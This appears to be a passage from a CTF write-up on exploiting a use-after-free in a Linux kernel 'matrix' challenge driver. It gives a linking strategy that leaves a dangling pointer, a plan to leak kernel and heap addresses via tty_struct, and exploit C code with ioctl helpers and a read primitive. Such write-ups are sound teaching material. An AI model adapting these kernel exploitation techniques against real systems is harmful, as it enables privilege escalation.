 ```c
  // release the matrix
  kfree(matrix);

  return 0;
}
```

So the `matrix_release` function unlinks 2 two matrixes before calling `kfree`, so we can't trigger the UAF bug now.

But what if I unlink 2 matrixes before deleting one of them?

So, here is my strategy:

+ Link matrix1 <-> matrix2
+ Link matrix2 <-> matrix3, now `matrix2->link = matrix3` and `matrix3->link = matrix2` but still have `matrix1->link = matrix2`
+ So, now if I delete `matrix2`, I can still overwite its old data via `matrix1` -> the UAF bug.

```c
    int fd1 = openDEV(); 
    int fd2 = openDEV();
    //Linking
    if(do_link(fd1,fd2) < 0)
        errExit("Do_link");
    logInfo("Link fd1 <-> fd2: done.");

    int fd3 = openDEV();
    if(do_link(fd2,fd3) < 0)
        errExit("do_link");
    
    logInfo("Link fd2 <-> fd3: done. But fd1 -> fd2 ?");
    close(fd2);
    logInfo("Closed fd2");
```

But we still need leak heap address and kernel base address.

The function `matrix_set_info` allows us to set any size for the matrix via `matrix->data = kmalloc(matrix->rows * matrix->cols, GFP_KERNEL);`

So I will take advantage of [`struct tty_struct`](https://elixir.bootlin.com/linux/v6.0.15/source/include/linux/tty.h#L195) to leak:
![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/5d2a9eb2-30b5-4b6c-9faf-8a47e3570d8e)
![image](https://github.com/robbert1978/kernel_for_fun/assets/31349426/e20edd81-de55-4309-b39a-4d752c674890)

We can leak kernel base address via offset 0x18 and heap address via offset 0x38.

```c
int set_info(int devfd, struct matrix_info* info){
    return ioctl(devfd,IOCTL_MATRIX_SET_INFO,info);
}
int do_link(int devfd1, int devfd2){
    return ioctl(devfd1,IOCTL_MATRIX_DO_LINK,devfd2);
}
int setname(int devfd,char* name){
    return ioctl(devfd,IOCTL_MATRIX_SET_NAME,name);
}

void readMATRIX64(int devfd, uint64_t* need, off64_t offset){
    struct matrix_pos leaker = {0};
    leaker.col = 0;
    for(uint32_t i = 0 ; i < 8;  ++i ){
        leaker.row = offset+i;
        ioctl(devfd,IOCTL_MATRIX_GET_POS,&leaker);
        ((char *)need)[i] = leaker.byte;
    }
```